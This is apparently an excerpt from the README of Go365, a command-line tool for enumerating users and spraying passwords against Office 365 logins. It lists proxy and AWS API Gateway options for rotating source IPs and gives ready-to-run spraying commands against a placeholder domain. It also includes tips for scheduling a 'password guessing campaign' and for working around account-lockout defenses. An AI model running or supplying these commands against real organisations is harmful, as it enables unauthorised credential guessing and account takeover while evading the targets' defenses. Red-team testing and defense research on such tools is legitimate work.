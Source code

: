 ```

    -proxyfile <string>         A file with a list of SOCKS5 proxy servers to use
                                : IP address and Port separated by a ":" on each line
                                : Randomly selects a proxy server to use before each request
                                : (-proxyfile ./proxyfile.txt)

    -url <string>               Endpoint to send requests to
                                : Amazon API Gateway 'Invoke URL'
                                : Highly recommended that you use this option. Google it, or
                                : check this out: https://bigb0sss.github.io/posts/redteam-rotate-ip-aws-gateway/
                                : (-url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login)

    -debug                      Debug mode.
                                : Print xml response
```

### Examples

```
  ./Go365 -endpoint rst -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
  ./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
  ./Go365 -endpoint rst -up ./userpass_list.txt -delay 3600 -d pwnthisfakedomain.com -w 5 -o Go365output.txt
  ./Go365 -endpoint graph -u legituser -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
  ./Go365 -endpoint rst -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
  ./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login

  You can even schedule out your entire password guessing campaign using the -pl and -delay flags :)
  ./Go365 -endpoint rst -ul ./user_list.txt -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login -proxyfile listofprox.txt -pl listofpasswords.txt -delay 7200

  *Protip: If you get a lot of "Account locked out" responses, then you might wanna proxy or use an AWS Gateway.
```

## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out accounts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.
